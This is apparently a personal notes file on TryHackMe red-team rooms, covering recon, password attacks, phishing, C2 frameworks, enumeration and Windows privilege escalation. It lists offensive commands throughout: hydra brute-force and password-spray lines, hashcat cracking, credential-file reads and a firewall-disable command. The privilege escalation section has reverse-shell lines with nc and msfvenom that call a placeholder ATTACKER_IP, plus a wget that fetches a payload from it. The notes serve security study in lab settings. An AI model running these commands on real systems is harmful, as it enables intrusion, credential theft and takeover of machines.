


# TryHackMe Notes

## Red Team Recon

* Link: <https://tryhackme.com/room/redteamrecon>
* Topics:
  * Types of reconnaissance activities
  * WHOIS and DNS-based reconnaissance
  * Advanced searching
  * Searching by image
  * Google Hacking
  * Specialized search engines
  * Recon-ng
  * Maltego
* Recon methods:
  * Discovering subdomains related to our target company
  * Gathering publicly available information about a host and IP addresses
  * Finding email addresses related to the target
  * Discovering login credentials and leaked passwords
  * Locating leaked documents and spreadsheets
* Types of recon:
  * Passive Recon: can be carried out by watching passively
  * Active Recon: requires interacting with the target to provoke it in order to observe its response.
    * External (outside target network) or Internal (within target network)
* Tools:
  * whois
  * dig, nslookup, host
  * traceroute/tracert
* Google dorking:
  * "search phrase": Find results with exact search phrase
  * OSINT filetype:pdf: Find files of type PDF related to a certain term.
  * salary site:blog.tryhackme.com: Limit search results to a specific site.
  * pentest -site:example.com: Exclude a specific site from results
  * walkthrough intitle:TryHackMe: Find pages with a specific term in the page title.
  * challenge inurl:tryhackme: Find pages with a specific term in the page URL.
* SERP resources
  * <https://www.google.com/advanced_search>
  * <https://support.microsoft.com/en-us/topic/advanced-search-options-b92e25f1-0085-4271-bdf9-14aaea720930>
  * <https://duckduckgo.com/duckduckgo-help-pages/results/syntax/>
  * <https://support.google.com/websearch/answer/2466433>
  * <https://archive.org/web/>
* Social media:
  * LinkedIn
  * Twitter
  * Facebook
  * Instagram
* DNS:
  * <https://viewdns.info/>
  * <https://threatintelligenceplatform.com/>
  * <https://search.censys.io/>
  * <https://www.shodan.io/>
* recon-ng
  * <https://github.com/lanmaster53/recon-ng>
  * <https://hackertarget.com/recon-ng-tutorial/>
* Maltego:
  * <https://www.maltego.com/>

## Red Team Fundamentals

* Link: <https://tryhackme.com/room/redteamfundamentals>
* Kill Chain: recon -> weaponization -> delivery -> exploitation -> installation -> C&C -> actions on objectives

## Password Attacks

* Link: <https://tryhackme.com/room/passwordattacks>
* Most common passwords: <https://techlabuzz.com/top-100-most-common-passwords/>
* Default Passwords:
  * <https://cirt.net/passwords>
  * <https://default-password.info/>
  * <https://datarecovery.com/rd/default-passwords/>
* Weak passwords
  * <https://wiki.skullsecurity.org/index.php?title=Passwords>
  * <https://github.com/danielmiessler/SecLists/tree/master/Passwords>
* Leaked passwords
  * <https://github.com/danielmiessler/SecLists/tree/master/Passwords/Leaked-Databases>
* Wordlists
  * Combined: `cat file1.txt file2.txt file3.txt > combined_list.txt`
  * Deduplicated: `sort combined_list.txt | uniq -u > cleaned_combined_list.txt`
  * Customized wordlists using cewl: `cewl -w list.txt -d 5 -m 5 http://thm.labs`
* Username conventions using: <https://github.com/therodri2/username_generator.git>
  * Usage: `python3 username_generator.py -h`
* Keyspace techniques to create wordlists
  * `crunch -h`
  * `crunch 2 2 01234abcd -o crunch.txt`
  * `git clone https://github.com/Mebus/cupp.git`
  * `python3 cupp.py -h`
* Dictionary attacks
  * `hashcat`
  * `hashid`
  * `hash-identifier`
  * MD5: `hashcat -a 0 -m 0 f806fc5a2a0d5ba2471600758452799c /usr/share/wordlists/rockyou.txt --show`
  * SHA-1`hashcat -a 0 -m 100 8d6e34f987851aa599257d3831a1af040886842f /usr/share/wordlists/rockyou.txt`
* Brute force: `hashcat -m 0 -a 3 e48e13207341b6bffb7fb1622282247b ?d?d?d?d`
* Rule-based attacks: when knowledge of password policies exists
  * `cat /etc/john/john.conf|grep "List.Rules:" | cut -d"." -f3 | cut -d":" -f2 | cut -d"]" -f1 | awk NF`
  * `john --wordlist=/tmp/single-password-list.txt --rules=best64 --stdout | wc -l`
  * Custom rules: `sudo vi /etc/john/john.conf`
  * Expand dictionary: `john -wordlist=clinic.lst -rules=Single-Extra -stdout > dict2.lst`
  * Rule based aAttack: `hydra -l burgess -P dict2.lst 10.10.168.49 http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php" -f`
* Hydra
  * FTP Usage: `hydra -l ftp -P passlist.txt ftp://10.10.x.x`
  * SMTP Usage: `hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v`
  * SSH usage: `hydra -L users.lst -P /path/to/wordlist.txt ssh://10.10.x.x -v`
  * HTTP usage 1: `hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f`
  * HTTP usage 2: `hydra -l phillips -P clinic.lst 10.10.168.49 http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f`
* Password spray attacks
  * SSH: `hydra -L usernames-list.txt -p Spring2021 ssh://10.1.1.10`
  * RDP 1: `python3 RDPassSpray.py -h`
  * RDP 2: `python3 RDPassSpray.py -u victim -p Spring2021! -t 10.100.10.240:3026`
  * RDP 3: `python3 RDPassSpray.py -U usernames-list.txt -p Spring2021! -d THM-labs -T RDP_servers.txt`
  * SMB: `Metasploit (auxiliary/scanner/smb/smb_login)`
* OWA password spray
  * <https://github.com/dafthack/MailSniper>
  * <https://github.com/byt3bl33d3r/SprayingToolkit>

## Red Team Engagements

* Link: <https://tryhackme.com/room/redteamengagements>
* Define scope and objectives -> rules of engagement -> campaign planning -> engagement documentation -> concept of operations -> resource plan -> operations plan -> mission plan
* Red team guide for rules of engagement: <https://redteam.guide/docs/templates/roe_template/>
* Check list for campaign planning: <https://redteam.guide/docs/checklists/red-team-checklist/>

## Phishing

* Link: <https://tryhackme.com/room/phishingyl>
* Spear-phishing
* Hide anchor text within phishing emails: `<a href="http://spoofsite.thm">https://onlinebank.thm</a>`
* Phishing infra
  * Domain name
  * SSL/TLS certs
  * Email server account
  * DNS records
  * Web server
  * Analytics
  * Automation software
    * GoPhish: <https://getgophish.com/>
    * SET: <https://www.trustedsec.com/resources/tools/the-social-engineer-toolkit-set>
* Droppers
* Choosing convincing domains:
  * Expired Domains
  * Typosquatting
  * TLD alternatives
  * IDN Homograph Attack/Script Spoofing (like 0 instead of O)
* Use MS office macros
* Use browser exploits
  * EG: <https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444>

## Red Team Threat Intel

* Link: <https://tryhackme.com/room/redteamthreatintel>
* To aid in consuming CTI and collecting TTPs, red teams will often use threat intelligence platforms and frameworks such as MITRE ATT&CK, TIBER-EU, and OST Map.
* TIBER-EU Framework
  * Threat Intelligence-based Ethical Red Teaming
  * White paper: <https://www.ecb.europa.eu/pub/pdf/other/ecb.tiber_eu_framework.en.pdf>
  * Website: <https://www.crest-approved.org/membership/tiber-eu/>



* TTP Mapping
  * Choose adversaries based on:
    * Target Industry
    * Employed Attack Vectors
    * Country of Origin
    * Other Factors
  * <https://attack.mitre.org/>
  * <https://mitre-attack.github.io/attack-navigator/>
  * <https://intezer.com/ost-map/>
* Other intel platforms:
  * Mandiant Advantage
  * Ontic
  * CrowdStrike Falcon

## Red Team OpSec

* Link: <https://tryhackme.com/room/opsec>
* threat = adversary + intent + capability
* Operations security manual: <https://www.esd.whs.mil/Portals/54/Documents/DD/issuances/dodm/520502m.pdf>



## Intro to C2

* Link: <https://tryhackme.com/room/introtoc2>
* C2 framework structure:
  * C2 server
  * Agents/payloads
  * Listeners
  * Beacons
* Obfuscating Agent Callbacks
  * Timers
  * Jitter
  * Python3 code for jitter:

```python
import random

sleep = 60
jitter = random.randint(-30,30)
sleep = sleep + jitter
```

* Payloads
  * Stageless: begin beaconing immediately
  * Staged: requires callback to download additional parts of C2 agent (eg dropper)
* Payload formats
  * PowerShell Scripts
    * Which may contain C# Code and may be compiled and executed with the Add-Type commandlet
  * HTA Files
  * JScript Files
  * Visual Basic Application/Scripts
  * Microsoft Office Documents
* Modules
  * Post Exploitation Modules
    * Cobalt strike aggressor scripts
    * PowerShell empire
    * Metasploit
    * SharpHound.ps1 
  * Pivoting modules
    * SMB beacons
* Domain fronting
  * Cloudflare
* C2 profiles
  * "NGINX Reverse Proxy", "Apache Mod_Proxy/Mod_Rewrite", "Malleable HTTP C2 Profiles", many others
* Common C2 Frameworks
  * Metasploit
  * Armitage
  * Powershell Empire/Starkiller
  * Covenant
  * Sliver
  * Cobalt Strike
  * Brute Ratel
  * <https://howto.thec2matrix.com/>
* Accessing and Managing your C2 Infrastructure
  * SSH port forwarding, creating listeners, callbacks
* Listener types
  * Standard
  * HTTP/HTTPS
  * DNS
  * SMB
* Advanced C2
  * Redirectors for HTTP/HTTPS requests

## The Lay of the Land

* Link: <https://tryhackme.com/room/thelayoftheland>
* Network infra tools
  * `netstat -na`
  * `arp -a`
* Get AD info
  * Find domain name: `systeminfo | findstr Domain`
  * Get user info: `Get-ADUser -Filter * -SearchBase`
    * EG: `Get-ADUser -Filter * -SearchBase "CN=Users,DC=THMREDTEAM,DC=COM"`
* Host security 1
  * Find AV: `wmic /namespace:\\root\securitycenter2 path antivirusproduct`
  * Find AV PS: `Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct`
  * Windows Defender: `Get-Service WinDefend`
  * Windows defender real time protection: `Get-MpComputerStatus | select RealTimeProtectionEnabled`
  * Host based firewall: `Get-NetFirewallProfile | Format-Table Name, Enabled`
  * Disable network firewall profile: `Set-NetFirewallProfile -Profile Domain, Public, Private -Enabled False`
  * Get firewall profile status: `Get-NetFirewallProfile | Format-Table Name, Enabled`
  * Get firewall rules: `Get-NetFirewallRule | select DisplayName, Enabled, Description`
  * Get particular firewall rule: `Get-NetFirewallRule | findstr "Rule-Name"`
  * Test firewall: `Test-NetConnection -ComputerName 127.0.0.1 -Port 80`
  * Get firewall threats: `Get-MpThreat`
* Host security 2
  * List available event logs: `Get-EventLog -List`
  * Search for sysmon: `Get-Process | Where-Object { $_.ProcessName -eq "Sysmon" }`
  * Sysmon service: `Get-CimInstance win32_service -Filter "Description = 'System Monitor service'"`
  * Sysmon registry: `reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WINEVT\Channels\Microsoft-Windows-Sysmon/Operational`
  * Sysmon configuration: `findstr /si '<ProcessCreate onmatch="exclude">' C:\tools\*`
  * Enumerate security products 1: <https://github.com/PwnDexter/Invoke-EDRChecker>
  * Enumerate security products 2: <https://github.com/PwnDexter/SharpEDRChecker>
* Applications/services
  * Installed applications: `wmic product get name,version`
  * Hidden directories: `Get-ChildItem -Hidden -Path C:\Users\kkidd\Desktop\`
  * Running services: `net start`
  * Single service info: `wmic service where "name like 'THM Demo'" get Name,PathName`
  * More service details: `Get-Process -Name thm-demo`
  * See if providing network service: `netstat -noa |findstr "LISTENING" |findstr "3212"`
  * DNS zone transfer: `nslookup.exe`
  * Set DNS server: `server 10.10.193.181`
  * DNS zone: `ls -d thmredteam.com`

## Printer Hacking

* Link: <https://tryhackme.com/room/printerhacking101>
* Internet Printing Protocol (IPP) is vulnerable on port 631
* Printer Exploitation Toolkit: <https://github.com/RUB-NDS/PRET>
* Printer testing cheat sheet: <http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet>

## Enumeration

* Link: <https://tryhackme.com/room/enumerationpe>
* Linux enumeration
  * Info to acquire:
    * System
    * Users
    * Networking
    * Running Services
  * OS version: `ls /etc/*-release` then `cat /etc/*-release`
  * Hostname: `hostname`
  * Passwords: `cat /etc/passwd`
  * Groups: `cat /etc/group`
  * Shadow file (requires root): `sudo cat /etc/shadow`
  * Mail files: `ls -lh /var/mail/`
  * Find applications: `ls -lh /usr/bin/` or `ls -lh /sbin/` or `rpm -qa` or `dpkg -l`
  * Users: `who` or `whoami` or `cat /etc/passwd` or `w` or `id` or `last`
  * Networking: `ip a s` or `cat /etc/resolv.conf` or netstat `sudo netstat -plt` or `sudo netstat -atupn`
  * Services: `ps axf` or `ps -ef | grep peter`
* Windows Enumeration
  * System: `systeminfo`
  * Installed updates: `wmic qfe get Caption,Description`
  * Installed/started windows services: `net start`
  * Installed apps: `wmic product get name,version,vendor`
  * Current user: `whoami`
  * Current user groups: `whoami /groups`
  * Users: `net user`
  * Groups: `net group` or `net localgroup`
  * Local admins: `net localgroup administrators`
  * Local/domain settings: `net accounts` or `net accounts /domains`
  * Networking: `ipconfig /all` or `netstat -abno` or `arp -a`
    * DNS zone transfer: `dig -t AXFR DOMAIN_NAME @DNS_SERVER`
    * SMB: `net share`
    * SNMP check on linux: <https://www.kali.org/tools/snmpcheck/>

```cmd
git clone https://gitlab.com/kalilinux/packages/snmpcheck.git
cd snmpcheck/
gem install snmp
chmod +x snmpcheck-1.9.rb
```

* Other windows tools
  * Process hacker: <https://processhacker.sourceforge.io/>
  * Sysinternals: <https://learn.microsoft.com/en-us/sysinternals/downloads/>
    * Process Explorer: shows processes w/ open files and registgry keys
    * Process Monitor: file system, processes and registry
    * PsList: process info
    * PsLoggedOn: logged0in users
  * GhostPack Seatbelt: <https://github.com/GhostPack/Seatbelt>

## Windows Privilege Escalation

* Link: <https://tryhackme.com/room/windowsprivesc20>
* Windows users:
  * Administrators or Standard Users
  * SYSTEM / LocalSystem
  * Local Service
  * Network Service
* Unattended Windows Installation locations:
  * C:\Unattend.xml
  * C:\Windows\Panther\Unattend.xml
  * C:\Windows\Panther\Unattend\Unattend.xml
  * C:\Windows\system32\sysprep.inf
  * C:\Windows\system32\sysprep\sysprep.xml
* Powershel History: `%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
* Saved Windows Credentials: `cmdkey /list` or `runas /savecred /user:admin cmd.exe`
* IIS Config: `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`
* PuTTY Credentials: `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`
* Scheduled Tasks: `schtasks /query /tn vulntask /fo list /v`
  * Run as: `icacls c:\tasks\schtask.bat`
  * Mofify bat file to spawn reverse shell: `echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat`
  * Open shell on local machine: `nc -lvp 4444`
  * Run task to spawn shell: `schtasks /run /tn vulntask`
* AlwaysInstallElevated
  * Check: `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer` or `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
  * Initiate reverse shell: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.14.193 LPORT=LOCAL_PORT -f msi -o malicious.msi`
  * Run installer to open shell: `msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`
* Service misconfigurations
  * Get service info: `sc qc SERVICE_NAME`
    * EG: `sc qc WindowsScheduler`
  * All services stored here: `HKLM\SYSTEM\CurrentControlSet\Services\`
  * Check permissions of executable associated with service (WService.exe in this case): `icacls C:\PROGRA~2\SYSTEM~1\WService.exe`
* Msfvenom exe-service payload:

```bash
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

user@attackerpc$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

* Pull payload: `wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe`

### Note: Finish notes for

<https://tryhackme.com/room/windowsprivesc20>

## Windows Local Persistence

* Link: <https://tryhackme.com/room/windowslocalpersistence>

## Core Windows Processes

* Link: <https://tryhackme.com/room/btwindowsinternals>
* Useful tools
  * Task Manager
  * tasklist cmd
  * Get-Process
  * PS
  * WMIC
  * Process explorer
  * Process hacker
* System
  * PIDs are not randomly assigned to the system process, it is always 4
  * The System process (process ID 4) is the home for a special kind of thread that runs only in kernel mode a kernel-mode system thread.
  * User v kernal mode: <https://learn.microsoft.com/en-us/windows-hardware/drivers/gettingstarted/user-mode-and-kernel-mode>
    * Kernel: privileged mode gives access to hardware
    * User: interacts with the windows API without direct access to hardware and is unprivileged
* smss.exe (Session Manager Subsystem) = Windows Session Manager
  * First user mode process started by the kernel
  * Starts csrss.exe (Windows subsystem) and wininit.exe in Session 0
  * SMSS is also responsible for creating environment variables, virtual memory paging files and starts winlogon.exe (the Windows Logon Manager).
* csrss.exe (Client Server Runtime Process) is the user-mode side of the Windows subsystem
